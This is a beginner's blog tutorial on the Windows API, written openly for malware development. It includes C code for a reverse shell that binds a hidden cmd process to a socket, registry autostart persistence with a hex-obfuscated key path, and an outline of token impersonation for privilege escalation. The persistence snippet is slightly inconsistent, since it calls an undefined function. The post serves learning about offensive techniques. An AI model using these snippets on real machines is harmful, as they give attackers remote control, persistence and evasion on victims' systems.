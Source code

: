 ```yaml
---
layout: post
title:  "Using and Abusing the Windows API (For Complete Beginners)"
date:   2024-12-26 12:00:00 -0600
categories: cybersecurity maldev networking
---
```


# Importance of the Windows API

The Windows API is central to developing tools and malware for machines running Windows. A basic understanding is crucial to learning cybersecurity and reverse engineering, I will run you through things I wish that I knew before I jumped into the documentation. 📚 

> This is definitly more of an absolute beginner's guide. If you already understand basics like W vs A functions, Handles, Access Tokens, etc., there is probably not much for you here.

# Handles and Objects

Handles appear everywhere in the API, especially when you are developing or reverse engineering malware. Creating processes, injecting into processes, duplicating tokens, changing registry keys, these are all things that require handles.

Handles refer to objects, system *things* that a programmer might want to interact with like tokens, processes, etc.

Instead of rewording it, here is the exact explaination from the [Windows Documentation](https://learn.microsoft.com/en-us/windows/win32/sysinfo/handles-and-objects).

>An object is a data structure that represents a system resource, such as a file, thread, or graphic image. Your application can't directly access object data, nor the system resource that an object represents. Instead, your application must obtain an object handle, which it can use to examine or modify the system resource. Each handle has an entry in an internally maintained table. Those entries contain the addresses of the resources, and the means to identify the resource type.

Handles are of type `HANDLE`.

# Quick Note on Windows functions.

If you take a look at the Windows docs, you will find that almost every function has both an A and W version, like `CreateProcessA` vs `CreateProcessW`. These two functions will do the same thing, however functions labeled with A use ANSI strings for input and output (1 Byte `char` strings), while W functions us Wide Strings for input and output (2 Byte `wchar_t` strings). Both types will be useful to us so keep track of them.

When writing wide strings, preceed them with an uppercase L.

{% highlight c %}
wchar_t message[] = L"Hello World!";
{% endhighlight %}

# Baby's First Reverse Shell

A great point that easily uses the Windows API for fun and profit is always some form of reverse shell. Look at the following example.

{% highlight c %}
SOCKET sockfd; // Lets assume we already have an open socket to communicate on.

STARTUPINFO sInfo;
memset(&sInfo, 0, sizeof sInfo);
sInfo.cb = sizeof sInfo;
sInfo.hStdInput = (HANDLE)sockfd;
sInfo.hStdOutput = (HANDLE)sockfd;
sInfo.hStdError = (HANDLE)sockfd;
sInfo.dwFlags = STARTF_USESTDHANDLES;

PROCESS_INFORMATION pInfo;

CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sInfo, &pInfo);
{% endhighlight %}

Here we do a few things. First, we assume that he already have an open SOCKET from WinSock. We then create a `STARTUPINFO` for us to redirect the shell's input, output, and error handles. Typically, these are the console input buffer and then the console screen buffer. However, the open socket can also be used like a handle to replace those buffers. The created shell process will esentially `send` all of the output and `recv` all of the input. We also create a `PROCESS_INFORMATION` to store information about our created process, including its handle. We then call `CreateProcessA` to open a CMD with our redirected I/O. Fun stuff! 🔥

# Registry Hijinks

As we think of super cool features to add to our super cool malware, we might at some point come into contact with the Windows Registry. Some of you might already be aware that the Registry holds values in a heirarchical tree of keys. These values, depending on the key that they are in, configure useful Windows behavior. Behavior like disabling Windows Defender and placing programs in auto-start. Here is another example using what we already know to place the currently running process into auto-start.

{% highlight c %}

HKEY key;
LSTATUS rv;

TCHAR* dir = (TCHAR*)malloc(MAX_PATH * sizeof(TCHAR));
GetModuleFileNameW(NULL, dir, 100);

wchar_t path[] = { 0x0053, 0x004f, 0x0046, 0x0054, 0x0057, 0x0041, 0x0052, 0x0045, 0x005c, 0x004d, 0x0069, 0x0063, 0x0072, 0x006f, 0x0073, 0x006f, 0x0066, 0x0074, 0x005c, 0x0057, 0x0069, 0x006e, 0x0064, 0x006f, 0x0077, 0x0073, 0x005c, 0x0043, 0x0075, 0x0072, 0x0072, 0x0065, 0x006e, 0x0074, 0x0056, 0x0065, 0x0072, 0x0073, 0x0069, 0x006f, 0x006e, 0x005c, 0x0052, 0x0075, 0x006e, 0x0000 };

rv = RegOpenKeyExW(HKEY_LOCAL_MACHINE, path, 0, KEY_WRITE, &key);

if (rv == ERROR_SUCCESS) {
	if (RegSetValueExW(key, L"Super Cool Stuff", 0, REG_SZ, (LPBYTE)dir, (lstrlen(dir) + 1) * sizeof(TCHAR)) != ERROR_SUCCESS) {
		pRegCloseKey(key);
	}
	else {
		pRegCloseKey(key);
		return;
	}
}

{% endhighlight %}

> TCHAR is the same as wchar_t, they are both 2 bytes.

Here we use several Windows API functions to achieve our end goal. The path variable does not need to the look like this, it is just a stack based string in hex for obfuscation purposes. However, if you were to attempt the function above on a normal user account, nothing would happen. In order for many parts of the Windows API to function we need the proper **tokens**.

# Security and Tokens + 1 Million Other Windows Things

Windows verifies security credentials for a process and thread. More accurately, there exists both a process and thread token that can both be used. There is not really a concrete use for these; many different functions use these tokens in different ways.

For example, the function `CreateProcessA` will create a new process in the context of the calling process. This function also leads into another great point about *impersonation*. If you go and read the documentation for `CreateProcessA`, you will see a note that it will not use the current impersonation token.

# Duplicating Tokens and Impersonation

Some parts of the Windows API become very useful to us as we continue on our maldev journey. A technique you may have heard of for privelege escalation is Named Pipe Impersonation. While I will not fully explain pipes, they are typically used so that two processes can share information between eachother. There exists a function that allows a named pipe server to assume the token of the client process, or in other words, to *impersonate* that client.

Functions like `DuplicateTokenEx` can then be used to create new *primary* tokens for a process. There exist other API methods to set the thread and process tokens, and tokens also have a vast amount of security configuration options as well. If you are more interested, the Windows Docs are the best way to learn about tokens.

# Key Takeaways

While it would be impossible to show the magnitude of the Windows API in a single article, this is definitely a good start. The best way to learn about about it, in my opinion, is to just build applications that use it! Go read the docs [here](https://learn.microsoft.com/en-us/windows/apps/).